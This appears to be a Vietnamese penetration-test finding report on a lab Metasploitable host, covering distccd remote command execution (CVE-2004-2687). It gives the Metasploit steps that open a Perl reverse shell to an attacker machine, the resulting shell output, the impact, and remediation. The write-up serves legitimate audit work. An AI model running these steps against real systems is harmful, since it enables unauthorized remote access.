

# F03 — distccd Remote Command Execution

**Mức độ:** High  
**Target:** `192.168.77.20:3632`  
**CVE:** CVE-2004-2687  
**Loại:** Remote Command Execution (RCE)

## 1. Mô tả

Dịch vụ distccd trên port 3632 cho phép thực thi lệnh hệ thống từ xa thông qua các yêu cầu biên dịch không được kiểm soát đầy đủ.

## 2. Kiểm chứng (PoC)

**Module:** `exploit/unix/misc/distcc_exec`

**Cấu hình Metasploit:**

```text
use exploit/unix/misc/distcc_exec
set RHOSTS 192.168.77.20
set RPORT 3632
set PAYLOAD cmd/unix/reverse_perl
set LHOST 192.168.77.10
set LPORT 4444
run
```

**Kết quả khai thác:**

```text
Command shell session 1 opened

id
uid=1(daemon) gid=1(daemon) groups=1(daemon)

whoami
daemon

hostname
metasploitable
```

Khai thác thành công, tạo được Reverse Shell với quyền `daemon`.

**Screenshot:**



**Evidence:** [Metasploit Output](../evidence/F03-distcc-metasploit.txt)

## 3. Tác động

Cho phép thực thi lệnh từ xa với quyền của tài khoản `daemon`, có thể dẫn đến truy cập trái phép vào tài nguyên hệ thống.

## 4. Khắc phục

- Giới hạn các địa chỉ IP được phép truy cập distccd.
- Không công khai dịch vụ trên mạng không đáng tin cậy.
- Cập nhật distcc và áp dụng cấu hình kiểm soát truy cập phù hợp.
- Chạy dịch vụ với quyền tối thiểu.